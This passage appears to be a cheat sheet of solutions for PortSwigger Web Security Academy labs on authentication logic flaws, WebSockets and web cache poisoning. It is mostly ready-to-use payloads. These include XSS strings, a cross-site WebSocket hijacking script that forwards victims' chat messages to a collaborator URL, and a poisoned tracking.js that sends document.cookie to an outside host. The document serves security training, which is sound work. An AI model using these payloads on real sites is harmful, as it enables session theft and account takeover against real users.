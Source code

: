 It will process Host Header Injection
11. Password brute-force via password change  
While processing password changing, observe that you can change nickname.
Change it to victim's one and brute his password
## Business logic Authentication vulnerability
1. Authentication bypass via flawed state machine  
If you got the role-selector page, just turn On the Interception and drop this request.  
2. Weak isolation on dual-use endpoint  
Delete current-password parameter and change username to administrator

## WebSockets
Arises at Live Chat page.
### Exploits
1. Manipulating WebSocket messages to exploit vulnerabilities  
Write something in Live Chat. Go to WebSocket History tab in Burp, catch you request and send it to Repeater. Change your message to `<img src=123 onerror=alert()>`
2. Manipulating the WebSocket handshake to exploit vulnerabilities  
```
X-Forwarded-For: 1.1.1.1
<img src=1 oNeRrOr=alert`1`>
```
3. Cross-site WebSocket hijacking  
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```1
## Web cache poisoning
Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response. If you got only tracking.js without X-Cache - no cache poisoning here  
If you got both file and header, the first thing you should try is to inject your exploit server into Host: or X-Forwarded-Host: headers and check them in response  
go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`.  
Poison web cache with your server and wait for victim's cookies.  
### Exploits
1. Web cache poisoning with an unkeyed header  
```
X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
```
2. Web cache poisoning with an unkeyed cookie  
```
Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
```
3. Web cache poisoning with multiple headers  
On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write alert(document.cookie) script.  
```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```
4. Targeted web cache poisoning using an unknown header  
HTML is allowed in comment section. Steal user-agent of victim with `<img src="http://collaborator.com">` payload.  
```